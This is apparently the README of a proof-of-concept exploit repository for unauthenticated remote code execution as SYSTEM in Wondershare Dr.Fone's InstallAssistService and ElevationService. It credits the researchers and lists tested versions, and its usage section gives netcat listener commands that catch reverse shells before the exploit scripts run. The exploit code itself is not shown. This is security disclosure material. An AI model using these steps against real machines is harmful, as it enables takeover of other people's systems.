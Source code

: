 # WonderShell
# CVE - 
# CVE - 

POC example to exploit [Wondershare Dr.Fone](https://drfone.wondershare.com/) .

## Discovered by
Netanel Cohen, and Tomer Peled a Security Researchers from BugSec.

## Details
Dr.Fone is a phone tool-kit develop by wondershare , pron to RCE .
As unauthenticated user we manage to execute remote code as SYSTEM user.

Two services are vulerable:
  InstallAssistService.exe
  ElevationService.exe

Tested on versions : 12.0.7 , 11.4

## Usage
Change ip and port and execute.
```
stty raw -echo; (stty size; cat) | nc -lvnp 1338
./ElevationServiceRCE.py
```

```
nc -lvnp 1337
./InstallAssistServiceRCE.py
```


## Publications


